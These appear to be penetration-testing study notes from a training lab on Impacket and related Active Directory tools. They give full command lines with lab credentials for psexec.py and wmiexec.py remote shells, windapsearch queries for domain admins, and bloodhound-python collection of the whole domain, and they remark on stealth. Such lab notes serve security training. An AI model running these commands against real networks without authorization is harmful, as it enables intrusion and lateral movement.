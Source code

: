 ```yaml
---
description: The coolest toolkit in the world
---
```


# Impacket Toolkit

## Introduction

* Impacket provides us with many different ways to enumerate, interact, and exploit Windows protocols and find the information we need using Python
* This tool is well maintained and has many contributors

## psexec.py

* This is <mark style="color:yellow;">one of the most useful tools</mark>
* This is a <mark style="color:yellow;">clone of the Sysinternals psexece executable</mark> but works slightly different
* <mark style="color:yellow;">The tool works by creating a remote service by uploading a randomly-named executable to the ADMIN$ share on the host</mark>
* It then registers the service via RPC
* <mark style="color:yellow;">Once established, communication occurs over a pipe, allowing for an interactive shell as SYSTEM on the victim</mark>

```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## wmiexec.py

* wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation or WMI
* It does not drop any files or executables on the target host and generates fewer logs than other modules
* Once connected, it will run the local admin user we connected with&#x20;
  * This is good because it is must stealthier than seeing SYSTEM executing commands

```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

<figure><img src="../../.gitbook/assets/image (1) (7) (1).png" alt=""><figcaption></figcaption></figure>

## Windapsearch.py

* This is a tool that can be used to enumerate users, groups, and computers from a Windows admin by utilizing LDAP queries

### Domain Admins

Enumerate all Domain Admins:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

### Privileged Users

Enumerate all privileged users:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

## BloodHound.py

Similar to the <mark style="color:yellow;">BloodHound and SharpHound duo</mark>, this is an <mark style="color:yellow;">all-in-one package</mark> that <mark style="color:yellow;">allows a remote attacker with valid domain credentials to be able to enumerate the entire AD domain</mark>!

Help:

```
bloodhound-python -h
```

Collection Method "all":

```
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```

<figure><img src="../../.gitbook/assets/image (8) (6).png" alt=""><figcaption></figcaption></figure>

* After the command completes, you will see four .json files

<figure><img src="../../.gitbook/assets/image (5) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* We need to upload these into BloodHound, but the easiest way is to zip them and just place one zip file in BloodHound

```
zip -r domain_BH_info.zip *.json
```

* This will zip up all of the .json files and we can upload this data into BloodHound!
